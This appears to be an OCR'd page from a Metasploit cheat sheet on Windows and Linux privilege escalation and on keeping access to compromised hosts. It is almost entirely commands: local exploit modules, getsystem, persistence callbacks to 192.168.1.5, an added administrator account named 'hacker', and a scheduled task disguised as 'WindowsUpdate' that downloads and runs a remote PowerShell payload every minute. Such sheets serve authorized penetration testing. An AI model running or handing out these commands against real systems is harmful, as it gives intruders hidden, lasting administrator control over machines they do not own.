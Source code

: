 ## Privilege Escalation

### Windows Privilege Escalation:
```
use post/windows/gather/enum_patches   # Check for missing patches
use post/windows/gather/enum_applications  # Enumerate installed applications
getsystem                              # Attempt privilege escalation
use exploit/windows/local/service_permissions  # Exploit service permissions
```

### Linux Privilege Escalation:
```
use post/linux/gather/enum_configs     # Gather configuration files
use post/linux/gather/enum_system      # Gather system information
use exploit/linux/local/docker_daemon_privilege_escalation  # Docker privilege escalation
```

### Using Local Exploit Suggester:
```
use post/multi/recon/local_exploit_suggester
set SESSION <ID>
run
```

## Maintaining Access

### Creating Persistent Backdoors:
```
run persistence -h    # Show persistence options
run persistence -U -i 30 -p 443 -r 192.168.1.5  # User persistence, 30s interval

# Windows registry persistence
use exploit/windows/local/persistence_service
set SESSION <ID>
set LHOST 192.168.1.5
run
```

### Creating Alternate Access Methods:
```
# Add a backdoor user
shell
net user hacker P@ssw0rd /add
net localgroup administrators hacker /add
exit
```

### Using Scheduled Tasks (Windows):
```
# Create a scheduled task for persistence
shell
schtasks /create /sc minute /mo 1 /tn "WindowsUpdate" /tr "powershell -c 'iex (New-Object Net.WebClient).DownloadString(\"http://192.168.1.5:8080/payload.ps1\")'"
exit
```
